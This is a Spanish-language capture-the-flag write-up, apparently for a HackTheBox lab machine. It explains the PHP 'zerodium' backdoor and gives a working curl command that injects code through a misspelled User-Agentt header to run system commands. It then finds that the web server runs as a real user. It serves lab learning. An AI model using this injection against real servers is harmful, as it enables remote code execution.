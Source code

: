 ### 🔐 ¿Qué es `zerodiumsystem(...)` entonces?

👉 **Nada.** Es solo un ejemplo que se hizo popular en writeups, pero no es necesario. Lo importante es:

- **Que el `User-Agent` contenga** `zerodium`.
    
- **Que el `User-Agentt` (con doble "t") contenga código PHP válido**, como `system('id');`.


### ✅ ¿Cómo se explota?

#### Con `curl`, manualmente:

```bash
curl -s -H "User-Agentt: zerodiumsystem('id');" http://10.10.10.242/ | grep uid
```

🔍 Resultado esperado:

![](../img/e709a8dc6710148e6c672bdb743c6d23.png)

#### Explicación clara:

- `User-Agent`: activa la condición del if (`"zerodium"`).
    
- `User-Agentt`: contiene el código que será evaluado con `system()` gracias a `zend_eval_string`.


## 👤 Tarea 4 – ¿Qué usuario está ejecutando el servidor web?

---

### 🧠 Objetivo

Identificar con qué permisos se ejecuta el servidor web (`Apache`) en esta máquina, para evaluar si tenemos acceso a ficheros sensibles o si ya podemos acceder a la flag de usuario directamente.

📥 Resultado:

```bash
james
```

### 📌 Interpretación

Normalmente un servidor web en Linux se ejecuta como `www-data` (usuario con pocos privilegios), pero en este caso:

- 🟢 El servidor Apache **está corriendo como el usuario real `james`**.
    
- Esto nos **permite acceder directamente a su directorio home** y obtener el flag de usuario sin necesidad de escalar privilegios.

